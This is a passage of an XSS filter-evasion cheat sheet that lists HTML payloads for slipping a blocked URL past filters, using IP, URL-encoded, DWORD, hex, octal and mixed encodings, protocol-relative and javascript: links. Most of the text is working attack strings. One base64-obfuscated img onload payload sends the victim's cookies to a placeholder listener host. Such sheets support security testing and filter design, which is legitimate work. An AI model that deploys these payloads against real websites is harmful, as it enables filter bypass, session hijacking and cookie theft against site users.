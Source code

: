 #### URL String Evasion¶
The following attacks work if http://www.google.com/ is programmatically disallowed:
##### IP Versus Hostname¶
<A HREF="http://66.102.7.147/">XSS</A>

##### URL Encoding¶
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

##### DWORD Encoding¶
Note: there are other of variations of DWORD encoding - see the IP Obfuscation calculator below for more details:
<A HREF="http://1113982867/">XSS</A>

##### Hex Encoding¶
The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quote is not required:
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>

##### Octal Encoding¶
Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc:
<A HREF="http://0102.0146.0007.00000223/">XSS</A>

##### Base64 Encoding¶
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">

##### Mixed Encoding¶
Let's mix and match base encoding and throw in some tabs and newlines (why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:

<A HREF="h
tt  p://6   6.000146.0x7.147/">XSS</A>

##### Protocol Resolution Bypass¶
// translates to http://, which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like (ht|f)tp(s)?:// (thanks to Ozh for part of this one). You can also change the // to \\\\. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL:
<A HREF="//www.google.com/">XSS</A>

##### Removing CNAMEs¶
When combined with the above URL, removing www. will save an additional 4 bytes for a total byte savings of 9 for servers that have set this up properly:
<A HREF="http://google.com/">XSS</A>

Extra dot for absolute DNS:
<A HREF="http://www.google.com./">XSS</A>

##### JavaScript Link Location¶
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
